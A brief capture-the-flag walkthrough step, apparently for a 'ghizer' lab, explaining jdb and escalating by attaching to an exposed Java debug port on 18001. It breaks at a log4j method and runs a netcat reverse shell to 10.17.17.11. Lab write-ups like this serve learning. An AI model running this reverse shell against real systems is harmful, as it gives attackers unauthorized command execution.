 # ghizer
The Java Debugger, jdb, is **a simple command-line debugger for Java classes**. It is a demonstration of the Java Platform Debugger Architecture that provides inspection and debugging of a local or remote Java Virtual Machine.

Since we know port 18001 is running on localhost let type the command _**jdb -attach 127.0.0.1:18001**_ now type _**classpath**_ after that type _**classes**_

`_**stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()**_`

`_**print new java.lang.Runtime().exec(“nc 10.17.17.11 1337-e /bin/sh”)**_`

[_**https://www.youtube.com/watch?v=N3VcWIUpgfE**_](https://www.youtube.com/watch?v=N3VcWIUpgfE)